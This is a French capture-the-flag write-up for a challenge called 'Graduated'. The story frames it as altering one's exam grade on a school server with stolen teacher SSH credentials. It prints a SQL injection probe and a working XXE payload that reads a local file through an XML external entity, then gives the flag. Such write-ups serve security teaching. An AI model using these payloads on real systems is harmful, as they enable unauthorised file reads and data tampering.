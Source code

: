 # Graduated

## Sujet :

> Vous avez raté votre examen de PHP. Cheh!
> 
> Furieux, vous avez décidé de prouver vos compétences en modifiant directement votre note sur le serveur de votre école.
> 
> Vous avez réussi à compromettre les identifiants de votre professeur absent.
>
> === Connexion SSH ===
> 
> Login : teacher
> 
> Mdp : teacher
> 
> Serveur : graduated.phack.fr

Tags : `system` `xml` `medium`

## Solution :

En fouillant un peu le serveur, on remarque dans le dossier de l'utilisateur `rector` un script en python ainsi que des log a priori générée par ce script, une base de donnée SQLite et le flag.

En lisant les logs, on comprend que le script est lancé toutes les minutes par une tâche cron. Malheureusement on ne peut pas lire le script, il faut donc trouver ce qu'il fait.

De retour dans le dossier de `teacher`, on comprend qu'il suffit de placer un fichier suivant le même modèle que `template.xml` dans le dossier `evaluations` pour que celui-ci soit lu par le script python et placé dans le dossier `done`.

En faisant quelques tests, il s'avère que le script lis le contenu du fichier xml et place les informations contenues dedans dans la base de donnée SQLite.

Notre première approche a été de trouver une injection SQL. Pour cela on remarque qu'en plaçant un `'` dans un des champs, le script plantait au niveau de la requête SQLite. On a donc essayé d'injecter certains champs, et seul le champs 'comment' n'a aucune vérification de contenu.

``` xml
<?xml version="1.0" encoding="utf-8"?>

<evaluation>
  <student>
    <firstname>Maxime</firstname>
    <lastname>DUPONT DE L</lastname>
  </student>
  <grade>20</grade>
  <subject>Biologie</subject>
  <teacher>
    <firstname>Emile</firstname>
    <lastname>LOUIS</lastname>
  </teacher>
  <comment>' || sqlite_version(), 0, 0) -- </comment>
</evaluation>
```

Cependant, pour lire un fichier à partir d'une injection SQLite requiert plusieurs requêtes, et on ne peut injecter qu'à l'intérieur de la requête INSERT exécuté par le script python...

Puis nous nous sommes souvenus qu'un des tags du challenge est `xml`. Un vrai parser XML doit être utilisé pour lire notre fichier, et donc il suffit de faire une XXE.

``` xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [
    <!ENTITY xxe SYSTEM "file:///home/rector/flag.txt">
  ]>

<evaluation>
  <student>
    <firstname>Maxime</firstname>
    <lastname>DUPONT DE L</lastname>
  </student>
  <grade>20</grade>
  <subject>Biologie</subject>
  <teacher>
    <firstname>Emile</firstname>
    <lastname>LOUIS</lastname>
  </teacher>
  <comment>&xxe;</comment>
</evaluation>
```

On attend une petite minute, puis on peut afficher le contenu de `graduation.db` dans le dossier de rector.

`PHACK{XmL_3x7Ern4l_3n7i7iEs_fr0m_b4sH}`